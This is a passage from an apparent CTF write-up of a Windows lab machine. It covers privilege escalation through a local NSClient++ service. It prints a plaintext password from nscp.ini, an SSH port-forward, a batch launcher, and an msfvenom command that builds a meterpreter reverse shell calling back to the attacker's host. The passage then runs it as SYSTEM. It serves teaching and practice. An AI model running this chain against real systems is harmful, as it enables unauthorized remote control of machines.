After gaining access to the `Nadine` user, I started enumerating the system for potential privilege escalation vectors. The first thing I did was check the "Program Files" directory for any interesting files or directories since that is fairly easy to do. I found a directory called `NSClient++`:



This directory is related to the NSClient++ service, which is a monitoring agent for Windows systems. It allows remote monitoring and management of Windows machines.
So I figured this should be a good place to start looking for privilege escalation opportunities. I checked the `NSClient++` directory and found a file called `nscp.ini` which freely reveals the following:

```plaintext

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
```
<center><font size=2>Excerpt of the nscp.ini file</font></center>

Interesting! Of course, attempts at logging in at `$target:8443` were unsuccessful and looking at the `nscp.ini` file tells why. It specifies that the allowed hosts are only `127.0.0.1` i.e localhost. 

No problem, we can tunnel the connection using SSH. I set up a reverse tunnel to forward the NSClient++ port (8443) to my local machine:

```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.129.167.105
```

Now, I can access the NSClient++ web interface on my local machine by navigating to `https://localhost:8443` in my browser.

Logging in gives us:


<center><font size=2>NSClient++ Web Interface</font></center>


Of course, I immediately searched for any potential privilege escalation vectors. And lo and behold, I found an entry on [ExploitDB that describes a vulnerability in NSClient++ that allows for running any script as SYSTEM.](https://www.exploit-db.com/exploits/46802)


### Exploitation

Following the instructions in the exploit, I created a script called [`yeahbuddy.bat`](https://www.youtube.com/shorts/fz9fsvhx4PY)

```bat
@echo off
C:\Users\Nadine\rev.exe
```

This script simply runs `rev.exe`, which is a reverse shell executable generated using `msfvenom`:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<MY IP> LPORT=9999 -f exe -o reverse.exe
```

{}
Make sure to replace `<MY IP>` with your actual IP address.
{}

I then downloaded the `rev.exe` file to the target machine using `wget`, after hosting a local python server on my machine, along with the `yeahbuddy.bat` script in the `C:\Users\Nadine\` directory.

Following which, I executed the script via the NSClient++ web interface by navigating to :

`Settings > external scripts > scripts > Add New`



After adding the script, I navigated to the Console, entered `shell` and pressed `Run`.
This executed the `yeahbuddy.bat` script, which in turn executed `rev.exe`, giving me a reverse shell back to my machine.
Looking back, I could have probably just executed `rev.exe` directly, but I wanted to follow the exploit instructions.

Anyways, after executing the script, I got a reverse shell back to my machine (I had a `multi/handler` session running to catch the reverse shell):




And that's root! ;)


# Conclusion

Overall, the box was fun and straightforward. The main challenge was finding the right enumeration rabbit hole but bigger than that was non-descriptive UI of the NSClient++ web interface. Instructions didn't fit the UI and I had to figure out how to navigate it and run the script I intended for the machine. The LFI vulnerability in the NVMS-1000 service was a nice touch, and the password spraying was a good exercise.
